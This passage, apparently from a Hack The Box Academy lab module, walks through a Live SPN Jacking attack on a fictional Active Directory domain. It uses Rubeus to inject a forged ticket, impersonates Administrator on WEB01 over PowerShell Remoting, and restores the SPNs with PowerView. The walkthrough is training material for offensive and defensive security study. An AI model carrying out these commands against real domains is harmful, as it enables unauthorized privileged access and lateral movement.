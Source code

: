 Now we can use this ticket to impersonate the Administrator account on `WEB01` and target the `HTTP` service that PowerShell Remoting use:

```powershell
PS C:\Tools> .\Rubeus.exe ptt /ticket:doIGpjCCBqKgAwIBBaEDAgEWooIFsTCCBa1h<SNIP>

  ______    _
 (_____ \   | |
  _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/

 v2.3.2

[*] Action: Import Ticket
[+] Ticket successfully imported!

```

We gain access to a ticket as the Administrator on WEB01. The attack chain we just perform can be illustrated as follows:

![text](UXXlRqc0fJsh.png)

It's a good practice to restore the SPNs we cleared. That won't affect the ticket we have. We can proceed to restore the SPNs with PowerView:

```powershell
PS C:\Tools> Set-DomainObject -Identity DBSRV003 -Set @{serviceprincipalname='WSMAN/DBSRV003','WSMAN/DBSRV003.inlanefreight.local','TERMSRV/DBSRV003','TERMSRV/DBSRV003.inlanefreight.local','RestrictedKrbHost/DBSRV003','HOST/DBSRV003','RestrictedKrbHost/DBSRV003.inlanefreight.local','HOST/DBSRV003.inlanefreight.local'} -Verbose

```

Finally we can use our new ticket to gain access to WEB01 using PowerShell Remoting:

```powershell
PS C:\Tools> Enter-PSSession -ComputerName WEB01
[WEB01]: PS C:\Users\Administrator.INLANEFREIGHT\Documents> whoami;hostname
inlanefreight\administrator
WEB01

```

## Abusing Live SPN Jacking from Linux

To initiate a Live SPN Jacking attack from a Linux environment, we must ensure network access. Since we don't have access to the network, we will use [Chisel](https://github.com/jpillora/chisel) to create a proxy that allows us to connect to the internal network using our administrator rights in `SRV01`. Please check the module [Pivoting, Tunneling, and Port Forwarding](https://academy.hackthebox.com/module/details/158/). We will start setting `socks5 127.0.0.1 1080` on `/etc/proxychains.conf` file:
